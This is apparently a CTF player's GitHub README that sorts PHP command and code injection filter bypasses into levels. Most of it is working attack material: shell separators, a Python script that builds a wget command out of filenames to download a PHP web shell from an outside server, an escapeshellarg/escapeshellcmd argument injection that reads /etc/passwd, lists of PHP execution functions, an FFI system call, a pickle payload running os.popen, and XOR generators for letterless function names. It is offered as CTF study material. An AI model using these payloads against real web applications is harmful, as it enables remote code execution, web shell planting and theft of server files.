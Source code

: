 My-PHP-Command-Code-Injection-Reivew

Have playing CTF for 2 years, seem long but not as much as I think. I have conduct some small experience and technique to build payload and this is about it.
The resource is plenty if not want to say overwhelming for an individual to find and read all of that and most of it often repeated the same marterial over and over.
This make things harder for development progress of academic and techicial aspect in Web Security and my self so I decided to take the knowledge that I have learned throught CTFs and trying to "system" it.
If anyone find this and love it, share with others or help me to develop it

### 01. The scenario
The scenario of this topic would be like this. 
A CTF challenge that allows you to Inject Code or Command but have some filter, you as a player need to bypass that.
I will try and devide that filter into many level that you may meet. But first you need to identify some thing

### 02. The method of identify
If you know CTF you know that ASCII is not complete. With a preg_match identify what you can do to build the payload.

```
<?php
	for ($ascii = 0; $ascii < 256; $ascii++) {
		if (!preg_match("/^[a-zA-Z0-9 \s]+$/", chr($ascii))) { // input your preg_match
			echo (chr($ascii));
			echo "\t";
		}
	}
?>
```
### Level 1. Allow all characters
This will be an easy task, when it come to this type of things, you often only need to seperate your payload and the before code

```bash 
  `   |   ||   &   &&   .   ;   -   <>   $    %0a 
```

`ls` is a way googling about it

### Level 2. Allow all characters but filted length.
You will be restricted. <?`$_GET[c]` will be too long or system('cat flag_abcxyz') would be imposible
The idea of code injection would be write the command to a file first, then use sh filename to execute the script and get the shell
or with the command injection `nl *` would be enough

Sample of devide the command:

```python
#!/usr/bin/python
#-*- coding: utf-8 -*- 
import requests 
def GetShell():
    url = "http://192.168.56.129/shell.php?1="
    fileNames = ["1.php","-O\ \\","cn\ \\","\ a.\\","wget\\"] 
    # linux创建中间有空格的文件名，需要转义，所以有请求"cn\ \\"
    # 可以修改hosts文件，让a.cn指向一个自己的服务器。
    # 在a.cn 的根目录下创建index.html ，内容是一个php shell 
    for fileName in fileNames:
        createFileUrl = url+">"+fileName
        print createFileUrl 
        requests.get(createFileUrl)
    getShUrl = url + "ls -t>1"
    print getShUrl
    requests.get(getShUrl)
    getShellUrl = url + "sh 1"
    print getShellUrl
    requests.get(getShellUrl)
    shellUrl = "http://192.168.56.129/1.php"
    response = requests.get(shellUrl)
    if response.status_code == 200:
        print "[*] Get shell !"
    else :
        print "[*] fail!"
if __name__ == "__main__":
    GetShell()
    
```

### Level 3. Wrong use of functions.
I don't know much about this thought, it is rarely meet because often need  php version 
reference:
[https://www.leavesongs.com/PENETRATION/escapeshellarg-and-parameter-injection.html](https://www.leavesongs.com/PENETRATION/escapeshellarg-and-parameter-injection.html)

This is the parameter injection caused by the wrong use of escapeshellarg and escapeshellcmd:

```
$url = "http://127.0.0.1/' -F file=@/etc/passwd -x 127.0.0.1:9999"; 
```

After being processed by escapeshellarg, it becomes:

```
'http://127.0.0.1/'\'' -F file=@/etc/passwd -x 127.0.0.1:9999'
```

After processing with escapeshellcmd, it becomes:
```
'http://127.0.0.1/'\\'' -F file=@/etc/passwd -x 127.0.0.1:9999\'
```
Cause the -F and -x parameters to escape single quotes, causing arbitrary file reading.

### Level 4. Allow some function or class
This is the one that I personally hate the most because it is purely bruteforce function.
This time, some function and class will allow you to execute, in this scenario try some of the following for php:

```
<?php 
  $ffi=FFI::cdef("int system(const char *command);");
  $ffi->system('ls');
?>
exec
system
passthru
shell_exec
escapeshellarg
escapeshellcmd
proc_close
proc_open
dl
popen
show_source
posix_kill
posix_mkfifo
posix_getpwuid
posix_setpgid
posix_setsid
posix_setuid
posix_setgid
posix_seteuid
posix_setegid
posix_uname
pcntl_exec
expect_popen

If Py try this maybe:
%22c__builtin__%0Aeval%0A%28S%27os.popen%28%27cat%20/var/www/flag%27%29.readlines%28%29%27%0AtR.%22


```
Also there is one more class that doing the same as execute function, but I couldn't remember it.

Using get_defined_functions can help you more 


### Level 5. Not allow alphabet and word
This time the code on 02. The method of identify would be star. Identify what chars is allow then build the function up from there. 
This time real bypass, the easiest way is using XOR of PHP

Using the code bellow and identify what you want:
```
<?php
for($i=128;$i<255;$i++){
	echo sprintf("%s^%s",urlencode(chr($i)),urlencode(chr(255)))."=>". (chr($i)^chr(255))."\n";
}
?>
```
And the code bellow for flash person in CTF (not entirely my code of course)

```
<?php
$shell = "assert";
$result1 = "";
$result2 = "";
for ($num = 0;$num <= strlen($shell);$num++)
{
    for ($x = 33;$x < 126;$x++)
    {
        if (judge(chr($x)))
        {
            for ($y = 33;$y <= 126;$y++)
            {
                if (judge(chr($y)))
                {
                    $f = chr($x) ^ chr($y);
                    if ($f == $shell[$num])
                    {
                        $result1 .= chr($x);
                        $result2 .= chr($y);
                        break 2;
                    }
                }
            }
        }
    }
}
echo $result1;
echo "<br>";
echo $result2;

function judge($c)
{
    if (!preg_match('/[a-z0-9]/is', $c))
    {
        return true;
    }
    return false;
}

```
